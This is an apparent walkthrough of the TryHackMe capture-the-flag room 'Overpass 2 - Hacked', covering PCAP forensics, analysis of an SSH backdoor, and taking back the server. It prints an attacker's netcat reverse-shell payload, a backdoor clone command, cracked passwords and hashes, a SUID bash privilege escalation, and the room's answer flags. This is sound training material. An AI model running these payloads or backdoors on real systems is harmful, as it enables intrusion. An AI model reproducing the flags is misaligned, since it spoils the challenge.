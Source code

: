# [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

![Overpass2-Hacked](./images/Overpass2-Hacked.png)

## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	![task1-development](./images/task1-development.png)

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	![task1-payload](./images/task1-payload.png)

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	![task1-password](./images/task1-password.png)

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	![task1-backdoor](./images/task1-backdoor.png)

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	![task1-shadow](./images/task1-shadow.png)

	![task1-john](./images/task1-john.png)

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

	`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

	* Clone backdoor file our machine
	
		`git clone https://github.com/NinjaJc01/ssh-backdoor`

	* Open file `main.go` 
	
		![task2-hash](./images/task2-hash.png)

* What's the hardcoded salt for the backdoor?

	`1c362db832f3f864c8c2fe05f2002a05`

	![task2-salt](./images/task2-salt.png)

* What was the hash that the attacker used? - go back to the PCAP for this!

	`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

	![task2-backdoor-hash(./images/task2-backdoor-hash.png)]

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	`november16`

	* View hash format (Password + salt) 
	 
		![task2-hashpassword](./images/task2-hashpassword.png)

	* Crete file `attacke-hash.txt`
	
			![task2-cat](./images/task2-cat.png)

	* Crack hash file
	
		![task2-sha512](./images/task2-sha512.png)

		![task2-password](./images/task2-password.png)


## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

	`H4ck3d by CooctusClan`

	![task3-meesege](./images/task3-meesege.png)

* Using the information you've found previously, hack your way back in!

	![task3-port](./images/task3-port.png)

* What's the user flag?

	`thm{d119b4fa8c497ddb0525f7ad200e6567}`

	```
	ssh james@$IP -p 2222 -oHostKeyAlgorithms=+ssh-rsa
	```

	![task3-ssh](./images/task3-ssh.png)

* What's the root flag?

	`thm{d53b2684f169360bb9606c333873144d}`

	* Run `.suid_bash`

		`./.suid_bash -p`

	* Get the root flag
	
		![task3-root](./images/task3-root.png)